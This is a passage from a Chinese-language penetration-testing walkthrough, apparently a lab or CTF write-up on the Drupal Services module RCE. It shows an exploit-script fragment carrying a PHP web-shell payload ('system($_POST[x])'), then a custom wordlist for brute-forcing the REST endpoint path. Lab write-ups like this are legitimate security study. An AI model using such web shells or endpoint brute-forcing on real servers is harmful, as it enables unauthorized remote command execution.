 ```bash
    'data' => '<?php system($_POST[x]);?>'
];

$browser = new Browser($url . $endpoint_path);
```

发现可能是 `endpoint_path` 这个参数有问题，于是寻找 `endpoint_path` 的信息，找到官网 ` https://www.ambionics.io/blog/drupal-services-module-rce`

<img src=".\图片\Snipaste_2023-08-31_15-15-19.png" alt="Snipaste_2023-08-31_15-15-19" style="zoom:67%;" />

发现 endpoint_path 可能不是固定的，就要寻找 endpoint_path，脚本默认是 `/rest_endpoint` ，可能是 restful 网站结构。尝试目录爆破

可以尝试这个字典

```bash
/usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints-res.txt
```

我们图方便，自己编一下字典

```bash
└─# cat restful.dic   
rest
restful
restful_endpoint
rest_endpoint
endpoint
admin
end
point
```
